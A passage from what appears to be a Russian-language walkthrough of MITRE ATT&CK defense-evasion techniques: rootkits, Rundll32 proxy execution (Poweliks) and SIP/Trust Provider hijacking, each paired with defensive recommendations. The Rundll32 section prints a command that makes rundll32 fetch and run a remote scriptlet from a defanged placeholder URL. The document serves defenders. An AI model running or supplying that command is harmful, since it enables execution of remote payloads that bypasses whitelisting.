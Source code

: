_Рекомендации по защите:_ Заблокируйте Regsvcs.exe и Regasm.exe если они не используются в вашей системе или сети.

### [Rootkit](https://attack.mitre.org/wiki/Technique/T1014)

_Система:_ Windows, Linux, macOS  
_Права:_ Администратор, System, root  
_Описание:_ Rootkits — это программы, которые скрывают наличие вредоносного ПО путем перехвата и изменения вызовов API. Руткиты могут работать на уровне пользователя, ядра ОС или ещё ниже, на уровне гипервизора, MBR или системной прошивки. Противники используют руткиты для скрытия присутствия программ, файлов, сетевых подключений, драйверов и других компонентов ОС.

_Рекомендации по защите:_ Идентифицируйте и блокируйте потенциально-опасное ПО, которое может содержать руткиты с помощью инструментов организации белых списков ПО, антивирусных средств или встроенных средств защиты ОС.

### [Rundll32](https://attack.mitre.org/wiki/Technique/T1085) [(Poweliks)](https://www.symantec.com/security-center/writeup/2014-080408-5614-99%E2%80%8B)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Rundll32.exe — это системная утилита для запуска программ, находящихся в динамически подключаемых библиотеках, может вызываться для прокси-выполнения двоичного файла, выполнения файлов элементов управления Windows (.cpl) через недокументированные функции shel32.dll — _Control_RunDLL_ и _Control_RunDLLAsUser_. Двойной клик по файлу .cpl также вызывает выполнение Rundll32.exe. Rundll32 также может использоваться для выполнения сценариев, таких как JavaScript:

_rundll32.exe javascript:"\\..\\mshtml,RunHTMLApplication";document.write();GetObject(«scrirpt:https\[:\]//www\[.\]example\[.\]com/malicious.sct»)"_

Вышеописанный метод использования rundll32.exe детектируется антивирусным программным обеспечением, как вирус типа Poweliks.

_Рекомендации по защите:_ Attack Surface Reduction (ASR) в EMET и Advanced Theart Protection в Защитнике Windows могут обеспечить блокировку использования Rundll32.exe для обхода белых списков.

### [Захват SIP и Trust Provider (SIP and Trust Provider Hijacking)](https://attack.mitre.org/wiki/Technique/T1198) или [Subverting Trust in Windows](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

_Система:_ Windows  
_Права:_ Администратор, System  
_Описание:_ Злоумышленники могут модифицировать компоненты архитектуры подписания и проверки цифровой подписи кода Windows, чтобы обойти средства контроля запуска программ, которые разрешают запускать только подписанный код. Для создания, подписания и проверки подписи файлов различных форматов в Windows используются так называемые _Subject Interface Package (SIP)_ — уникальные для каждого типа файла программные спецификации, с помощью которых обеспечивается взаимодействие между API-функциями, которые инициируют создание, вычисление и проверку подписей и непосредственно файлами. Валидность же подписи подтверждается с помощью так называемых _Trust Provider_ — это программные компоненты ОС, осуществляющие различные процедуры, связанные с вычислением и проверкой цифровых подписей.
